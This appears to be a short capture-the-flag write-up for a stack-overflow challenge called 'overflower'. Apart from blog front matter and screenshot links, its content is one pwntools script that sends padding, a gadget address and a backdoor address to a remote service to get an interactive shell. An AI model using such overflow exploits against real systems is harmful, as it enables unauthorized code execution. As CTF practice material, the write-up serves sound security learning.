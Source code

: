 ```yaml
---
title: overflower
date: '2025-6-14 22:00'
categories:
  - PWN
  - 栈溢出（Stack Overflow）
---
```

![](/images/{705048A9-C62E-4272-B122-5AF2FADA48EF}.png)
![](/images/Pastedimage20250615160603.png)
![](/images/Pastedimage20250615160614.png)
![](/images/Pastedimage20250615160623.png)
![](/images/Pastedimage20250615160632.png)

```python
from pwn import *

p = remote(' ',端口号)  

backdoor_addr = 0x401146  

payload = b'A' * 72 +p64(0x40115B) + p64(backdoor_addr)

p.sendline(payload)  

p.interactive()
```
![](/images/Pastedimage20250615160703.png)